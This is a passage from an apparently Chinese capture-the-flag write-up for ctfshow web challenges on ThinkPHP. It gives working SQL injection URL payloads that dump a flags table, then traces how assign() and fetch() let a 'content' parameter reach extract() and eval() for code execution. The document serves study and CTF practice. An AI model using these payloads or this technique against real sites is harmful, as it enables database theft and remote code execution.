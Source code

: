 第二个是回显位，开！！！

```sql
?id[0]=exp&id[1]==0 union select 1,2,3,4%23
?id[0]=exp&id[1]==0 union select 1,group_concat(flag4s),3,4 from flags%23
```

## web 578

> 描述：变量覆盖导致rce

```php
public function index($name='',$from='ctfshow'){
$this->assign($name,$from);
$this->display('index');
}
```

下面要献丑了，过两天一定学vscode或者phpstorm动调

在tp框架里查找`assign()`方法的定义，没什么敏感内容。不过注释里写`模板变量赋值`，往下看有没有模板解析

```php
public function assign($name, $value = '')
    {
        if (is_array($name)) {
            $this->tVar = array_merge($this->tVar, $name);
        } else {
            $this->tVar[$name] = $value;
        }
    }
```

![36](https://the0n3.top/medias/show-think/36.png)

下面定义了一个解析的`fetch()`函数，解析模板输出内容，重点：里面多次使用了extract函数覆盖变量，多次使用文件包含模板文件，或者使用eval解析php内容


![37](https://the0n3.top/medias/show-think/37.png)

截取部分`fetch()`函数代码，看到如果`$this->tVar['content']`存在，那么`extract()`函数会覆盖当前作用域的变量，然后`eval()`函数解析php代码，回去看`assign()函数`，看看`$this->tVar['content']`是怎么来的

```php
(isset($this->tVar['content'])) {
    $__content__ = $content;
    extract($this->tVar, EXTR_OVERWRITE);
    eval('?>' . $__content__);
} else {
    extract($this->tVar, EXTR_OVERWRITE);
    eval('?>' . $content);
}
```


在这个`assign()函数`里，判断在属性`$this->tVar`里是否存在第一个参数，如果不存在，使用`array_merge($this->tVar, $name);`给`$this->tVar`添加新属性和值，如果存在，直接把参数值`$value`赋值给`$this->tVar`，总之会把$name赋值给`$this->tVar`。我们可以给他一个`content`参数，渲染php代码

